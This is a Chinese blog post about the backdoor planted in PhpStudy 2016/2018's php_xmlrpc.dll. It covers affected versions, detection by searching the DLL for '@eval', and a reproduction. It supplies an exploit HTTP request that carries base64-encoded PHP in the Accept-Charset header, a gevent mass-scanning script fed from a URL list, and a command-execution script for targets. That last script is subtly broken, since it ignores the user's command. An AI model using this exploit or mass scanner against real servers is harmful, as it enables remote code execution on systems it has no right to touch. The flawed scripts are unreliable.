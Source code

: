 ﻿---
title: PhpStudy2018后门漏洞预警及漏洞复现&检测和执行POC脚本
date: 2020-06-03 17:44:51
categories: 
- 漏洞复现
tags: 
- 漏洞
- 后门
- POC
- PhpStudy2018
- 漏洞复现
---




## phpstudy介绍
Phpstudy是国内的一款免费的PHP调试环境的程序集成包，其通过集成Apache、PHP、MySQL、phpMyAdmin、ZendOPtimizer不同版本软件于一身，一次性安装无需配置即可直接使用，具有PHP环境调试和PHP开发功能。由于其免费且方便的特性，在国内有着近百万的PHP语言学习者和开发者用户

## 后门事件
2018年12月4日，西湖区公安分局网警大队接报案，某公司发现公司内有20余台计算机被执行危险命令，疑似远程控制抓取账号密码等计算机数据回传大量敏感信息。通过专业技术溯源进行分析，查明了数据回传的信息种类、原理方法、存储位置，并聘请了第三方鉴定机构对软件中的“后门”进行司法鉴定，鉴定结果是该“后门”文件具有控制计算机的功能，嫌疑人已通过该后门远程控制下载运行脚本实现收集用户个人信息。在2019年9月20日，网上爆出phpstudy存在“后门”。作者随后发布了声明。
于是想起自己安装过phpstudy软件，赶紧查一下是否存在后门文件，结果一看真存在后门，学个PHP真是不容易，软件被别人偷偷安装了后门。

<!--more-->

## 影响版本
目前已知受影响的phpstudy版本
phpstudy 2016版php-5.4
phpstudy 2018版php-5.2.17
phpstudy 2018版php-5.4.45

## 后门检测分析
通过分析，后门代码存在于\ext\php_xmlrpc.dll模块中
phpStudy2016和phpStudy2018自带的php-5.2.17、php-5.4.45
phpStudy2016路径
`php\php-5.2.17\ext\php_xmlrpc.dll`
`php\php-5.4.45\ext\php_xmlrpc.dll`
phpStudy2018路径
`PHPTutorial\php\php-5.2.17\ext\php_xmlrpc.dll`
`PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll`
用notepad打开此文件查找@eval，文件存在`@eval(%s(‘%s’))`证明漏洞存在，如图：
![](1.png)


## phpstudy 2018漏洞复现

启动phpstudy，选择php-5.2.17版本，使用burpsuit抓包（如果是本机127.0.0.1环境，代理去掉本地过滤，否则抓不到包）。

![](2.png)

大佬给出exp如下
```
GET /index.php HTTP/1.1
Host: yourip.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.25 Safari/537.36 Core/1.70.3730.400 QQBrowser/10.5.3805.400
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip,deflate
Accept-Charset:这里就是你要执行的代码命令（经过base64加密）
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
我们修改数据包查看命令`phpinfo();`执行情况

![](3.png)

继续修改数据包查看命令`echo system("net user");`执行情况

![](4.png)


漏洞复现成功
ps：我复现的时候这里有一个坑，就是直接repeater过来的数据包`Accept-Encoding`字段的参数是`gzip, deflate`,`deflate`前面有一个空格，去掉就可以成功执行命令了

## 后门检测脚本

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

import gevent
from gevent import monkey

gevent.monkey.patch_all()
import requests as rq


def file_read(file_name="url.txt"):
    with open(file_name, "r") as f:
        return [i.replace("\n", "") for i in f.readlines()]


def check(url):
    '''
    if "http://" or "https://" not in url:
        url = "https://" + url
    '''
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36 Edg/77.0.235.27',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Sec-Fetch-Site': 'none',
        'accept-charset': 'ZWNobyBlZVN6eHU5Mm5JREFiOw==',  # 输出 eeSzxu92nIDAb
        'Accept-Encoding': 'gzip,deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }
    try:
        res = rq.get(url, headers=headers, timeout=20)
        if res.status_code == 200:
            if res.text.find('eeSzxu92nIDAb'):
                print("[存在漏洞] " + url)
    except:
        print("[超时] " + url)


if __name__ == '__main__':
    print("phpStudy 批量检测 (需要 gevent,requests 库)")
    print("使用之前，请将URL保存为 url.txt 放置此程序同目录下")
    input("任意按键开始执行..")
    tasks = [gevent.spawn(check, url) for url in file_read()]
    print("正在执行...请等候")
    gevent.joinall(tasks)
    wait = input("执行完毕 任意键退出...")

```

## 后门执行脚本

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

import requests
import base64


def backdoor(url, command="system('calc.exe');"):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36 Edg/77.0.235.27',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Sec-Fetch-Site': 'none',
        'accept-charset': 'c3lzdGVtKCdjYWxjLmV4ZScpOw==',
        'Accept-Encoding': 'gzip,deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }
    command = base64.b64encode(command.encode('utf-8'))
    command = str(command, 'utf-8')
    result = requests.get(url, headers=headers, verify=False)
    if result.status_code == "200":
        print("执行完成")
    a = input("任意键退出...")


url = input("输入URL(例如:http://127.0.0.1:228/xx.php)\n")
command = input("输入命令 默认为 system('calc.exe'); (不想输入直接回车)\n")
backdoor(url, command)

```

## 参考
PhpStudyGhost后门供应链攻击事件及相关IOC
https://www.freebuf.com/column/214946.html
PHPStudy后门分析+复现&附批量Py脚本
https://mp.weixin.qq.com/s/Y29wifB6XTDcJN-RPDMwxg
phpstudy后门文件分析以及检测脚本
https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
Phpstudy官网于2016年被入侵，犯罪分子篡改软件并植入后门
https://mp.weixin.qq.com/s/CqHrDFcubyn_y5NTfYvkQw
phpstudy后门文件分析以及检测脚本
https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
phpStudy隐藏后门预警
https://www.cnblogs.com/0daybug/p/11571119.html